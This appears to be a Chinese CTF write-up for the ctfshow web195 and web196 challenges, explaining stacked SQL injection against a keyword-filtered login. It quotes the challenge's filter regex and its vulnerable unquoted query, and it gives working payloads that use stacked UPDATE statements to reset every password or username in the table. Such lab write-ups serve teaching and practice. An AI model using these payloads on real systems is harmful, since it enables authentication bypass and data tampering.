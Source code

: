 # 四、堆叠注入

## web195~堆叠注入

> ```
>   if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> ```

把常见的查询语句过滤了，所以来个堆叠 `update` 更新数据操作。

payload:

把所有密码都更改为 1

```
0x61646d696e;update`ctfshow_user`set`pass`=1
```

用十六进制只因为，这里的查询语句没有引号包裹

```
$sql = "select pass from ctfshow_user where username = {$username};";
```

还可以把用户名也全部跟改为1，就不用十六进制了

```
1;update`ctfshow_user`set`username`=1
```

## web196~限制长度

> ```
> if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
>     $ret['msg']='用户名非法';
>      die(json_encode($ret));
>   }
> ```
>
> ```
>   if(strlen($username)>16){
>     $ret['msg']='用户名不能超过16个字符';
>     die(json_encode($ret));
>   }
> ```

限制了用户名长度，十六个长度是不够更改数据的。

但是偶然试了一下select多查一个数据，结果成功登陆了。但是这里题目明明是过滤的。。。
